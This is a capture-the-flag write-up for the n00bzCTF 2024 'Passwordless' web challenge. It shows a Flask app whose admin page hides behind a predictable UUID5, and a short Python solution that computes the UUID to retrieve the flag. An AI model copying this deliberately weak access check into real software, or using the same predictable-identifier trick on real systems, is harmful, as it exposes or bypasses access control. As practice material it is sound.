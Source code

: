 ```yaml
---
title: "2024 n00bzCTF"
date: 2024-08-03T18:26:59-05:00
tags: ['web']
draft: true
---
```


## Challenges
- [Passwordless](#passwordless)

### Passwordless
Tired of storing passwords? No worries! This super secure website is passwordless!
- - -
For this challenge, we had to exploit a program weakness.

**app.py**
```py
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
Looking at the source, the flag can be retrieved via the `user_page()` route. The route compares the **UID** input from the user to the hard-coded **UUID5**.

#### Solution
In a Python terminal...
```
>>> import uuid
>>> leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
>>> str(uuid.uuid5(leet, 'admin123'))
'3c68e6cc-15a7-59d4-823c-e7563bbb326c'
>>>
```

Now that we have our target **UID**, let's send it to the route: `http://127.0.0.1:1337/3c68e6cc-15a7-59d4-823c-e7563bbb326c`

![Image of flag](passwordless-solve.png)

Voila! We have our flag: `n00bz{f4k3_fl4g_f0r_t35t1ng}`
